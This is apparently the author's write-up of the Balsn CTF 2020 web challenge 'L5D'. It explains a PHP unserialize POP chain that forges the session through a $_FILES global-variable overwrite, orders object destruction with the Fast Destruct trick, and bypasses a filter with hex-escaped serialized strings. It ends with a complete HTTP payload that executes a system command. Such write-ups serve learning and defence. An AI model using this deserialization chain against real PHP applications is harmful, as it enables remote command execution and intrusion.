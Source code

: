 # Balsn CTF 2020 

# L5D

- Difficulty: ★★
- Type: Web
- Solved: 17 / 490
- Tag: Warmup, PHP, Unserialize, POP chain

## Description

「Taking L5D was a profound experience, one of the most important things in my life.」

Try this new Unserialize-Oriented Programming System a.k.a. L5D !

http://l5d.balsnctf.com:12345/index.php

PHP Version: 7.0.33

Author: kaibro


## Source Code

- [L5D](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2020/src/)


## Solution


In this challenge, there are 5 classes that contain some magic methods like `__construct`, `__destruct`.

And we have a arbitrary unserialize entry point:

```php
$wtf = waf($_GET{'?'}) ? $_GET['?'] : (finalize() && die("Nice try!"));
if($goodshit = @unserialize($wtf)) {
    $is_unser_finished = true;
}
```

So our target is to chain these classes' magic method to read the `/flag` file.

And most of the classes didn't have any property (only global variable), so it is hard to do pop chain (Property Oriented Programming) exploit.

But we can use `Array` to chain these classes together, like this:

```
Array(classA, classB, classC, ...);
```

It will unserialize multiple classes at the same time, and then the magic methods of these classes will be called.

Next, we should find a path to read flag.

The `L5D_Command` class is an attractive target, its `__destruct()` will run system command with global variable `cmd`.

And the `L5D_ResetCMD` class can reset the `cmd` variable by `new_cmd` property, but we should set our `$_SESSION['name']` to `wubalubadubdub` first:

```php
if($_SESSION['name'] === 'wubalubadubdub') {
    $cmd = $this->new_cmd;
}
```

In `L5D_Login` class, you can set the right session name, but you need to know the flag content first. It is impossible. We should find another way to exploit.

Let's take a look at the `L5D_Upload` class, this class has an obvious variable override vulnerability:

```php
foreach ($_FILES as $key => $value)
    $GLOBALS[$key] = $value;
```

We can overwrite any global variable to a file array (with some information that we uploaded).

So we can use this vulnerability to override the `$_SESSION` variable by upload a file with key `_SESSION`.

And everybody knows that `$_FILES`'s value looks like:

```
Array('name' => 'xxx', 'tmp_name' => 'xxx', 'size' => 'xxx' ...)
```

It can just overwrite the `$_SESSION['name']`, and the `name` is our uploaded filename!

(Note: you should upload a valid image file, or it will call `finalize()` to destroy your `$_SESSION` and `$cmd`)

So final exploit chain is:

1. `L5D_Upload` overwrite `$_SESSION['name']` to `wubalubadubdub`
2. `L5D_ResetCMD` reset `$cmd` to `cat /flag`
3. `L5D_Command` call `system($cmd)`

But there is still a small problem, lots of `__wakeup()` function will destroy your session or some important global variable in the process of unserialization. These variables will make your exploit failed.

An easy way to control order of `__wakeup()` and `__destroy()` is to use the [Fast Destruct](https://github.com/ambionics/phpggc#fast-destruct) trick.
It means that if you define two same key in an array, the first one object will be destroyed (it will call `__destroy()`) in the process of deserilization.
So you don't need to wait until the program ends to call `__destroy()`.

Finally, one of a valid exploit chain looks like this:

```
Array(0=>L5D_Command, 1=>L5D_ResetCMD, 2=>L5D_Upload, 2=>L5D_SayMyName, 3=>L5D_Login, 3=>L5D_SayMyName, 1=>L5D_SayMyName)
```

I use a useless `L5D_SayMyName` class to destroy other object with same key.

So the executing order of above exploit chain is:

1. `L5D_Command` wakeup
2. `L5D_ResetCMD` wakeup
3. `L5D_Upload` wakeup
4. `L5D_SayMyName` wakeup and `L5D_Upload` destroy
5. `L5D_Login` wakeup
6. `L5D_SayMyName` wakeup and `L5D_Login` destroy
7. `L5D_SayMyName` wakeup and `L5D_ResetCMD` destroy
8. Program End
9. `L5D_Command` destroy and other `L5D_SayMyName` destroy

And the final part, `waf()` function will block `*` character.
We should bypass this restriction to control the `$new_cmd` variable in `L5D_ResetCMD` class.

There is a small [trick](https://github.com/ambionics/phpggc#ascii-strings) can help us. If we change the type specifier of string from `s` to `S`, then we can use `\xx` hex representation in serialization data.

`s:10:"%00*%00new_cmd"` => `S:10:"\00\2A\00new_cmd%"`

Final payload:

```
POST /?%3f=a:7:{i:0;O:11:%22L5D_Command%22:0:{}i:1;O:12:%22L5D_ResetCMD%22:1:{S:10:%22%5C00%5C2A%5C00new_cmd%22;s:9:%22cat%20/flag%22;}i:2;O:10:%22L5D_Upload%22:0:{}i:2;O:13:%22L5D_SayMyName%22:0:{}i:3;O:9:%22L5D_Login%22:0:{}i:1;O:13:%22L5D_SayMyName%22:0:{}i:3;O:13:%22L5D_SayMyName%22:0:{}} HTTP/1.1
Host: l5d.balsnctf.com:12345
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148
Content-Type: multipart/form-data; boundary=---------------------------133915844616073813622061755521
Content-Length: 840
Cookie: PHPSESSID=dq2t165cscptkm24vb57e5f872
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="l5d_file"; filename="php.jpg"
Content-Type: image/jpeg

{IMAGE DATA}
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"
Content-Type: image/jpeg

aaa
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------133915844616073813622061755521--
```

(Note: This is not the only one exploit chain :D)

<br>
<br>


BTW

Actually, this is just a warmup challenge compared to other web challenge.

But some china teams said this challenge is too easy in the feedback.

Maybe I should prepare a more complex (or harder) warmup challenge next year XD? (flee


## Writeups

- [The Flat Network Society
](https://github.com/TFNS/writeups/tree/master/2020-11-14-BalsnCTF/l5d)
- [Super Gusser](https://github.com/Super-Guesser/ctf/tree/master/BalsnCTF2020/web/L5D)
- [安全客](https://www.anquanke.com/post/id/222675#h2-1)
